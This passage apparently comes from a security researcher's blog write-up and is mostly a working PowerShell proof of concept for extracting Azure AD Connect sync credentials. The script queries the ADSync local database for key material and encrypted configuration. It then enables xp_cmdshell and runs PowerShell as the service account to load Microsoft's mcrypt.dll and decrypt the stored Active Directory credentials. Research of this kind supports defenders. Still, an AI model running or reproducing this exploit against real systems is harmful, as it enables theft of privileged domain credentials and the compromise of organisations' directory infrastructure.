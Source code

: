 

#### Running It

I downloaded a copy of the [new POC
code](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c) and
updated the connections string to match what I did in the original:



    Write-Host "AD Connect Sync Credential Extract v2 (@_xpn_)"
    Write-Host "`t[ Updated to support new cryptokey storage method ]`n"

    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"

    try {
        $client.Open()
    } catch {
        Write-Host "[!] Could not connect to localdb..."
        return
    }

    Write-Host "[*] Querying ADSync localdb (mms_server_configuration)"

    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
    $reader = $cmd.ExecuteReader()
    if ($reader.Read() -ne $true) {
        Write-Host "[!] Error querying mms_server_configuration"
        return
    }

    $key_id = $reader.GetInt32(0)
    $instance_id = $reader.GetGuid(1)
    $entropy = $reader.GetGuid(2)
    $reader.Close()

    Write-Host "[*] Querying ADSync localdb (mms_management_agent)"

    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
    $reader = $cmd.ExecuteReader()
    if ($reader.Read() -ne $true) {
        Write-Host "[!] Error querying mms_management_agent"
        return
    }

    $config = $reader.GetString(0)
    $crypted = $reader.GetString(1)
    $reader.Close()

    Write-Host "[*] Using xp_cmdshell to run some Powershell as the service user"

    $cmd = $client.CreateCommand()
    $cmd.CommandText = "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell.exe -c `"add-type -path ''C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'';`$km = New-Object -TypeName Microsoft.DirectoryServices.                 MetadirectoryServices.Cryptography.KeyManager;`$km.LoadKeySet([guid]''$entropy'', [guid]''$instance_id'', $key_id);`$key = `$null;`$km.GetActiveCredentialKey([ref]`$key);`$key2 = `$null;`$km.GetKey(1, [ref]`$key2);`$decrypted = `$null;`$key2.DecryptBase64ToString(''$crypted'', [ref]`$decrypted);Write-Host        `$decrypted`"'"
    $reader = $cmd.ExecuteReader()
